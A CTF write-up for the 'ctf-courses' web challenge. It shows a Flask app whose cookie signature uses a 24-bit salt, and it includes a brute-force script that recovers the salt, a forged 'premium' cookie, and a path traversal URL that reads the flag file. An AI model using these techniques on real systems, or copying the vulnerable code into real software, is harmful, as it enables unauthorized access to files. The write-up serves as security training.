

# Web - ctf-courses
## Writeup Author: kebabulon

---

### Task

Кто хочет порешать web, прошу

**server.tar.gz**:

```
|-- app.py
|-- Dockerfile
|-- flag.txt
|-- static
|   |-- 1.jpeg
|   |-- garish.css
|   |-- light_mode.css
|   |-- premium.css
|   |-- style.css
|-- templates
    |-- basic.jinja
    |-- login.jinja
    |-- premium.jinja
```

---

## Solution

First of all we need to find where the flag is. Lets check ```Dockerfile```:

```Dockerfile
FROM python

RUN pip install flask gunicorn pyjwt[crypto]
COPY . /app
RUN mkdir /secret-flag-dir; mv /app/flag.txt /secret-flag-dir/flag.txt
WORKDIR /app

EXPOSE 1234

CMD ["gunicorn", "-b", "0.0.0.0:1234", "app:app", "-t", "4"]
```

Flag's path is ```/secret-flag-dir/flag.txt```.

Now, lets check the website. We are presented with a login page:


The main page:



This doesn't really help us. Let's look at ```app.py```:

```py
from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json
import os

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)

    if payload['username'] not in users:
        resp = make_response(redirect('/login'))
        resp.set_cookie('data', '', expires=0)
        resp.set_cookie('hash', '', expires=0)
        return resp

    actual_hash = hash(data + users[payload['username']])

    if data_hash != actual_hash:
        return redirect('/login')

    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        file_path = os.path.join(os.path.dirname(__file__), theme_name)
        try:
            with open(file_path, 'r') as file:
                theme_content = file.read()
        except FileNotFoundError:
            theme_content = 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=theme_content)
    else:
        return render_template('basic.jinja')


@app.route('/login', methods=['GET'])
def get_login():
    return render_template('login.jinja')


@app.route('/login', methods=['POST'])
def post_login():
    username = request.form['username']

    if username not in users:
        users[username] = hex(random.getrandbits(24))[2:]

    resp = make_response(redirect('/'))
    data = {
        "username": username,
        "user_type": "basic"
    }

    b64data = b64encode(json.dumps(data).encode()).decode('utf-8')
    data_hash = hash(b64data + users[username])
    resp.set_cookie('data', b64data)
    resp.set_cookie('hash', data_hash)
    return resp


if __name__ == '__main__':
    app.run()

```

There are 2 user types: basic and premium. The premium user has access to different themes:

```py
if payload['user_type'] == 'premium':
    theme_name = request.args.get('theme') or 'static/premium.css'
    file_path = os.path.join(os.path.dirname(__file__), theme_name)
    try:
        with open(file_path, 'r') as file:
            theme_content = file.read()
    except FileNotFoundError:
        theme_content = 'static/premium.css'
    return render_template('premium.jinja', theme_to_use=theme_content)
else:
    return render_template('basic.jinja')
```

This can be used to read ```flag.txt```, but we need to somehow change ```user_type``` in the ```data``` cookie to ```premium```.

The ```data``` cookie is base64 encoded, but its salted hash must match with the ```hash``` cookie:

```py
data = request.cookies.get('data')
decoded = b64decode(data)
data_hash = request.cookies.get('hash')
payload = json.loads(decoded)

...

actual_hash = hash(data + users[payload['username']])

if data_hash != actual_hash:
    return redirect('/login')
```

The user's salt is randomly generated.

```py
users[username] = hex(random.getrandbits(24))[2:]
```

There are 16777215 possible salts, lets bruteforce! 

```py
import hashlib

def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

data = "eyJ1c2VybmFtZSI6ICJrZWIiLCAidXNlcl90eXBlIjogImJhc2ljIn0="
real_hash = "dba862707f3449d26f70eb8da34b31e191d3e3a3f86d2250d97c7597c36a8685"

for i in range(16777216):
    salt = hex(i)[2:]

    hash = hash(data + salt)

    if hash == real_hash:
        print(salt)
        break
```

```
c8edda
```

Well that was pretty quick, lets find our new cookies:

```py
import json
from base64 import b64encode

salt = "c8edda"
data = {
    "username": "keb",
    "user_type": "premium"
}

b64data = b64encode(json.dumps(data).encode()).decode('utf-8')

print(b64data) # data
print(hash(b64data + salt)) # hash
```

```
eyJ1c2VybmFtZSI6ICJrZWIiLCAidXNlcl90eXBlIjogInByZW1pdW0ifQ==
cff0797f65c1a86465edbd1f4cd83c495f3adaef4f6aa82ce2d8048d2850ff48
```

And we get the premium page:


As I said earlier, we can use the ```theme``` parameter to access the flag:

```
http://46.188.104.214:1234/?theme=../secret-flag-dir/flag.txt
```

```html
<!DOCTYPE html>
<html lang="ru">
<style> flag{rate_our_courses_from_1_to_10}
 </style>
<head>
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Курсы CTF!</title>
</head>
<body>
  <p class="title">Добро пожаловать на сайт!<p>
  <p>Теперь у вас есть возможность использовать темы! Попробуйте одну из нижеуказанных тем:</p>
  <a href='/?theme=static/premium.css'>по умолчанию</a>  <a href='/?theme=static/light_mode.css'>светлый</a>  <a href='/?theme=static/garish.css'>яркий</a>
  <p>Из-за проблем в поставках, мы не можем предоставить вам наши курсы... Извините, и спасибо за поддержку сайта!</p>
</body>
</html>
```

This was pretty fun!

---

### Flag

```
flag{rate_our_courses_from_1_to_10}
```
